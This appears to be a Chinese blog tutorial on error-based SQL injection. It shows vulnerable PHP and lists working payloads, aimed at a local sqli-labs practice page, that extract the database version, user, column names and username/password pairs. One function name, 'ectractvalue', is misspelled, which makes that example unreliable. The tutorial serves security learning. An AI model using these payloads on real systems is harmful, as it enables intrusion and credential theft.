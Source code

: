 ```yaml
---
layout: post
title: 1.2.2-SQL注入-SQL注入语法类型-报错注入
category: 
  - web安全
tags: 
  - sql注入
abbrlink: 4239639054
date: 2018-06-16 00:00:00
---
```


## 报错注入

### 01 报错注入原理

构造payload让信息通过错误提示回显出来  
应用场景：  
查询不回显内容，会打印错误信息  
Update、insert等语句，会打印错误信息  

	if($row)
	{
		echo 'Your Login name:'.$row['username'];
	}
	else
	{
		print_r(mysql_error());
	}

### 02 报错注入方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/02.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/03.png)

	select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select user()),0x7e,floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select database() limit 0,1),0x7e,floor(rand(0)*2)))--+ // 表名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select concat(username,0x7e,password) from users limit 0,1),0x7e,floor(rand(0)*2)))--+ // 数据

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/04.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/04/05.png)

	// 特殊符号导致方法报错，报错可以输出错误信息
	select ectractvalue(1,concat(0x7e,(select user()),0x7e));
	select updatexml(1,concat(0x7e,(select user()),0x7e),1);  

	报错注入只有32位长 用 substr截取字符串substr('ab',1,2) // 从第一位截取两个
	http://127.0.0.1:90/Less-1/?id=1' and updatexml(1,concat(0x7e,(select substr(concat(password),1,2) from users limit 0,1),0x7e),1) --+








